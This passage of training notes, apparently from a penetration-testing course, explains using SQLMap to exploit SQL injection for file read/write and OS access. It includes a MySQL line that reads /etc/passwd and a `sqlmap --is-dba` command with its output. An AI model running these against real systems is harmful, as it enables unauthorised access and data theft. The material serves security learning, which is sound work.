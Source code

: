 ﻿---
sticker: lucide//database-backup
---
SQLMap has the ability to utilize an SQL Injection to read and write files from the local system outside the DBMS. SQLMap can also attempt to give us direct command execution on the remote host if we had the proper privileges.

---

## File Read/Write

The first part of OS Exploitation through an SQL Injection vulnerability is reading and writing data on the hosting server. Reading data is much more common than writing data, which is strictly privileged in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in MySql, to read local files, the DB user must have the privilege to`LOAD DATA` and`INSERT`, to be able to load the content of a file to a table and then reading that table.

An example of such a command is:

- `LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;`

While we do not necessarily need to have database administrator privileges (DBA) to read data, this is becoming more common in modern DBMSes. The same applies to other common databases. Still, if we do have DBA privileges, then it is much more probable that we have file-read privileges.

---

## Checking for DBA Privileges

To check whether we have DBA privileges with SQLMap, we can use the`--is-dba` option:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba

 ___
 __H__
 ___ ___[)]_____ ___ ___ {1.4.11#stable}
|_ -| . [)] | .'| . |
|___|_ ["]_|_|_|__,| _|
 |_|V... |_| http://sqlmap.org

[*] starting @ 17:31:55 /2020-11-19/

[17:31:55] [INFO] resuming back-end DBMS 'mysql'
[17:31:55] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: False

[*] ending @ 17:31:56 /2020-11-19
```

As we can see, if we test that on one of the previous exercises, we get`current user is DBA: False`, meaning that we do not have DBA access. If we tried to read a file using SQLMap, we would get something like:
